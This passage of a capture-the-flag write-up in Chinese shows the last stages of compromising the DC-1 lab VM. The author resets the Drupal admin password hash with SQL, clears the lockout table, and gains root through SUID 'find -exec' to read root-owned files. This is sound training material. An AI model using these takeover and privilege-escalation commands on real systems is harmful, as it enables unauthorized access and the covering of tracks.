

## 7. 改 admin 密码、清 flood、登录后台（flag3）

把 admin 的密码更新成刚生成的哈希：

```sql
update users set pass='$S$AsdasdasdUiscEUUcLwP50e2asylZgxjGGELANslojebAw/BwBjt' where name='admin';
```



更新完密码，登录前先把爆破留下的 flood 记录清掉——`flood` 表里是一堆失败登录计数：

```sql
select * from flood;
```



里面是一堆 `failed_login_attempt_user` 记录，直接清空：

```sql
delete from flood;
```



再用 `admin` / `asd` 登录：



进入后台，在 Content 页面找到 flag3：





内容：

```text
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

## 8. SUID find 提权（final flag）

flag3 提示看特殊权限，并且用 `find` 的 `-exec`。查找 root 的 SUID 文件：

```bash
find / -perm -4000 -user root 2>/dev/null
```



`/usr/bin/find` 带 SUID 位，可以用它执行命令：

```bash
find /etc/passwd -exec whoami \;
```



输出 `root`，提权成功。

最后读 root 目录下的最终 flag：

```bash
find /etc/passwd -exec cat /root/thefinalflag.txt \;
```



```text
Well done!!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

## 写在最后

DC-1 的链路很典型：Web 入口（Drupal 7 用户枚举 + Drupalgeddon2）→ 配置文件泄露数据库凭据 → 改管理员密码进后台 → SUID `find` 提权。

中间踩了两个坑：

- Drupal 7 的 flood 限制，爆破失败次数多了会临时封 IP / 账号，清空 `flood` 表即可解除；
- Drupal 7 的密码是 phpass 哈希，盐存在哈希字符串里，改了哈希就能用对应明文登录，不用去碰撞原密码。
